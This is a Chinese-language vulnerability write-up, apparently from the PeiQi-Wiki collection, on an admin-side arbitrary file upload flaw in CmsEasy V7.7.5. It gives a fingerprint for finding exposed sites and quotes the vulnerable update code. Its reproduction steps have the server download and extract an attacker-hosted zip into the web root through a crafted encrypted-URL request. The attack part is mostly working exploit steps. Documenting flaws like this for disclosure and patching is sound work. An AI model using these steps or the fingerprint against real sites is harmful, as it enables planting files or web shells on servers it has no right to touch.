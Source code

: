 # CmsEasy update_admin.php 后台任意文件上传漏洞

## 漏洞描述

CmsEasy 后台存在任意文件上传漏洞，通过文件 service.php 加密Url参数执行即可上传任意文件

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](/assets/PeiQi-Wiki/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313234956895.png)

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313234958829.png)

存在漏洞的文件为 `lib/admin/update_admin.php`

![img](/assets/PeiQi-Wiki/img/1632745397516-acc4d6fe-182d-4a3a-87f3-8d9b8299e81d.png)

其中需要注意的代码为

```php
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

其中使用 unlockString 和 get_file 方法

```php
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```

![img](/assets/PeiQi-Wiki/img/1632746012776-5f9a2330-5289-4b8c-81c7-6f0a3a452979.png)

写入后在上层目录写入文件，即Web根目录，创建压缩包并上传可访问的服务器上

```php
zip phpinfo.zip phpinfo.php
```

构造下载请求

![img](/assets/PeiQi-Wiki/img/1632746461754-efd8a8a5-d455-4ccd-b194-a8716a206640.png)

```php
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```

![img](/assets/PeiQi-Wiki/img/1632746383961-7f2d63fc-2480-4604-8646-446503f857c6.png)

![img](/assets/PeiQi-Wiki/img/1632746435271-559c0cc2-38a7-4a8d-a24a-b6fd48180482.png)